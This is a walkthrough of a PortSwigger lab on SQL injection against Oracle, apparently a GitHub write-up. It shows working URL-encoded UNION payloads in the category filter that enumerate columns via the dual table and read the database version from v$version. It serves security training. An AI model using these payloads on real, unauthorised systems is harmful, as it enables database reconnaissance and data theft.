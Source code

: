 
# SQL injection attack, querying the database type and version on Oracle

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Hint: On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/examining-the-database

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


We see there are 2 values displayed in the table, the description and the content of the post:


<img width="1275" height="870" alt="1" src="https://github.com/user-attachments/assets/ef92e24e-9934-4acb-b1c8-3823b4a48e81" />


We find these payload are valid to display the 4 posts in Pets and the second all the items:

```
/filter?category=Pets'--
/filter?category=Pets'+or+1=1--
```

<img width="1523" height="808" alt="2" src="https://github.com/user-attachments/assets/6df15041-6fa9-4046-a6e1-0ae3bb74b28e" />


Also, that there are 2 columns returned by the query and we can do a UNION attack with the payload:

```
/filter?category=Pets'+union+all+select+NULL,NULL+FROM+dual-- 
```


<img width="1528" height="800" alt="3" src="https://github.com/user-attachments/assets/0b688f22-4f2e-4768-a3a9-d354c76b8f80" />



We are adding the “FROM dual” because it is necessary in Oracle.

To display the version we need to execute one of these:

```
SELECT banner FROM v$version
SELECT version FROM v$instance
```

```
/filter?category=Petss'+union+all+select+'1',banner+FROM+v$version-- 
```


<img width="1534" height="788" alt="4" src="https://github.com/user-attachments/assets/3e3b6d67-da75-4221-a660-b2214d9b5bb8" />


With v$instance the server returns an error message.
